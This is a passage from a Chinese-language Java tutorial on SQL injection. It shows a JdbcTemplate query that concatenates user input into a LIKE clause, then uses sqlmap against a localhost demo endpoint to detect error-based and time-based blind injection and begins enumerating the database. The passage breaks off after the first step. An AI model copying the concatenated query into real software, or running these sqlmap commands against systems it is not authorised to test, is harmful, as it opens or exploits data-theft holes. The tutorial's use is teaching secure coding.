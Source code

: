 ```
        log.info("{}", jdbcTemplate.queryForList("SELECT id,name FROM userdata WHERE name LIKE '%" + name + "%'"));
    }
    

```

使用sqlmap来探索这个接口：

```
    python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test
    

```

一段时间后，sqlmap给出了如下结果：

![](./httpsstatic001geekbangorgresourceimage2f592f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
    python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db
    

```

可以得到当前数据库是common\_mistakes：

```
    current database: 'common_mistakes'
    

```
